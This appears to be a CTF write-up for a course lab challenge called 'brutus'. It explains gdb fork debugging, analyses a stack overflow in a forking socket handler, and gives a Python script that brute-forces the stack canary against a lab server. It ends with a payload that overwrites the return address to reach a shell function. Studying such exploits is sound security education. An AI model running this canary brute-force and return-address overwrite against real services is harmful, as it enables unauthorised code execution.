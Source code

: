 # canary\_brute\_force

## Debug fork in gdb

Debugging in this program is a little tricky, because parent process will recv message, and fork new process to process the message

{% embed url="https://sourceware.org/gdb/onlinedocs/gdb/Inferiors-and-Programs.html\#Inferiors-and-Programs" %}

{% embed url="http://sourceware.org/gdb/onlinedocs/gdb/Forks.html" %}

Inferiors in gdb is kinda like session or tab in vim. 

`info inferior` to list inferiors

`inferior 1` to go to process 

* two mode related: `detach-on-fork` and `follow-fork-mode`

if detach-on-fork is on\(default\), gdb follow child or parent according to follow-fork-mode, and drop the control of the other process.

if detach-on-fork is off, gdb takes one process\(according to follow-fork-mode\) to front end, and **hangs** the other process in other inferior at the point of fork.

 

> If you ask to debug a child process and a `vfork` is followed by an `exec`, GDB executes the new target up to the first breakpoint in the new target. If you have a breakpoint set on `main` in your original program, the breakpoint will also be set on the child process’s `main`.



### brutus

this is a simple example: parent call child to handle message after accept a socket

![](../.gitbook/assets/image%20%283%29.png)

![](../.gitbook/assets/image%20%281%29.png)

the only param `handle` needs is the fd of socket

```c
send(socket_fd, str.Hello, 0x29, 0) //0x29 means how many bytes to send
send(socket_fd, str.how_long, 0x1f, 0) //0 is just a flag not mattering
recv(socket_fd, ebp-0x90, 127, 0) //recv 127 bytes, stores it to eip-0x90
how_long_int = atoi(ebp-0x90)
memset(ebp-0x90, 0, 0x80) //0 is a flag, 0x80 is 128 bytes, ebp-0x90 used again
dprintf(socket_fd, str.give_me, how_long_int)
recv(socket_fd, ebp-0x90, how_long_int, 0 //write to memory cleaned by memset
```

at first, I thought how\_long\_int will be used to set how many bytes room will be set by memset. But actually the bytes set by memset is fixed, 

canary is at rbp-0x8, memory to write is rbp-0x90, 0x90-0x8 = 0x88

should take notice that len\('B'.rjust\(89,'A'\)\) == 89

When the handle child process return normally, it will send back "and goodbye". But when stack smashed, it won't. 

![](../.gitbook/assets/image%20%282%29.png)



use script below to brute for the canary of remote process



```python
for test_byte in range(0xff+1):  #0xff will not be test if not +1

    if REMOTE:
        sh = remote('offsec-chalbroker.osiris.cyber.nyu.edu',1340)
        sh.recv(1024)
        sh.send('cx578\n')
    else:
        sh = remote('127.0.0.1',8000)
    sh.recv(1024)
    sh.send(str(0x90))
    sh.recv(1024)

    test_answer = answer + chr(test_byte)
    print(binascii.hexlify(test_answer))
    payload = test_answer.rjust(0x88 + len(test_answer), 'A')
    sh.send(payload)
    response = sh.recvall()
    print(response)

    if 'goodbye' in response:
        return test_answer

```

and there's a give\_shell function, by using 

`payload = binascii.unhexlify('001a46c8500c09cf').rjust(0x90, 'A') + 'A'*8 + p64(0x00400afd)`

and sent it, easily got a shell.

